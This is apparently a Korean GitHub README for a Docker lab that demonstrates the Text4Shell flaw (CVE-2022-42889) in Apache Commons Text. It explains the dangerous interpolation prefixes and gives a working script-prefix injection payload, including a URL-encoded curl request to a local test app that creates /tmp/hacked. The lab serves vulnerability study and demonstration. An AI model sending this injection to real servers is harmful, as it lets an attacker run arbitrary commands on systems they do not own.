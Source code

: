 # Apache Commons Text 원격 코드 실행 취약점 (CVE-2022-42889)

Apache Commons Text의 원격 코드 실행 취약점 (CVE-2022-42889, 일명 Text4Shell)을 시연하는 Docker 기반 환경을 구성한다.

---

## 취약점 개요

| 항목 | 내용 |
|:---|:---|
| 취약점 ID | CVE-2022-42889 |
| 영향 라이브러리 | Apache Commons Text |
| 문제 기능 | 문자열 보간 (String Interpolation) |
| CVSS 점수 | 9.8 (심각) |
| 영향 받는 버전 | 1.5 ~ 1.9 |
| 패치된 버전 | 1.10.0 이상 |

---

## 취약점 발생 원리

Apache Commons Text의 `StringSubstitutor` 클래스는 `${prefix:name}` 형식의 문자열 템플릿을 평가한다.  
취약한 버전에서는 다음과 같은 위험한 접두사가 기본 활성화되어 있다.

- `script:` : JVM 스크립트 엔진을 통한 코드 실행
- `dns:` : DNS 레코드 조회
- `url:` : 외부 URL에서 데이터 로드

공격자는 악성 입력을 통해 서버 측에서 임의의 명령어를 실행할 수 있다.

악성 입력 예시는 다음과 같다.

```text
${script:javascript:java.lang.Runtime.getRuntime().exec('touch /tmp/hacked')}
```

### 디렉터리 구조
```text
CVE-2022-42889/
├── docker-compose.yml
├── Dockerfile
└── app/
    ├── pom.xml
    └── src/
        └── main/
            └── java/
                └── com/
                    └── example/
                        └── DemoApplication.java
```

### 시연
컨테이너 빌드 및 실행
``` text
docker-compose up --build -d
```
악성 입력 전달

``` text
${script:javascript:java.lang.Runtime.getRuntime().exec('touch /tmp/hacked')}
```
1. ${script:javascript:...} 는 script: 접두사를 이용해 JVM의 자바스크립트 엔진을 호출하는 부분이다.
2. java.lang.Runtime.getRuntime().exec('touch /tmp/hacked') 는 서버 시스템 명령어 실행을 의미한다.
3. touch /tmp/hacked 명령어는 /tmp/hacked 파일을 생성하는 리눅스 명령이다.
4. 즉, 이 입력을 전달하면 서버에서 실제로 /tmp/hacked라는 빈 파일이 만들어진다.
url 인코딩 후, 아래와 같이 Localhost:8080에 입력
``` text
curl "http://localhost:8080/test?input=%24%7Bscript%3Ajavascript%3Ajava.lang.Runtime.getRuntime%28%29.exec%28%27touch%20%2Ftmp%2Fhacked%27%29%7D"
```
![PoC 요청 결과](./CVE-2022-42889/1.png)
명령이 실행 중이며 아직 종료되지 않았다는 의미이다. (touch 명령은 바로 끝남)

컨테이너 내부 파일 생성 여부 확인
![PoC 요청 결과](./CVE-2022-42889/2.png)
